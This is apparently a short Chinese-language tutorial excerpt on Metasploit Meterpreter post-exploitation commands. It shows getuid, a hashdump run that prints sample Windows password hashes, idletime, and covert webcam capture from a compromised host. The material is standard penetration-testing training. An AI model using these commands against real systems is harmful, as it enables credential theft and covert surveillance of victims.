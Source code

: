 ##### GETUID

运行这个命令可以显示 Meterpreter 的服务器

```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

##### HASHDUMP

这个命令可以导出windows系统中的SAM数据库。

```
meterpreter > run post/windows/gather/hashdump 

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...

Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
dook:1004:81cbcef8a9af93bbaad3b435b51404ee:231cbdae13ed5abd30ac94ddeb3cf52d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9cac9c4683494017a0f5cad22110dbdc:31dcf7f8f9a6b5f69b9fd01502e6261e:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:36547c5a8a3de7d422a026e51097ccc9:::
victim:1003:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
meterpreter >
```

##### IDLETIME

这个命令运行后显示远程机器用户的空闲时间。

```shell
meterpreter > idletime
User has been idle for: 5 hours 26 mins 35 secs
meterpreter >
```

##### WEBCAM_SNAP

这个命令会从连接的web 摄像头获取图像。

```shell

meterpreter > webcam_snap -i 1 -v false
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/Offsec/YxdhwpeQ.jpeg
meterpreter >
```

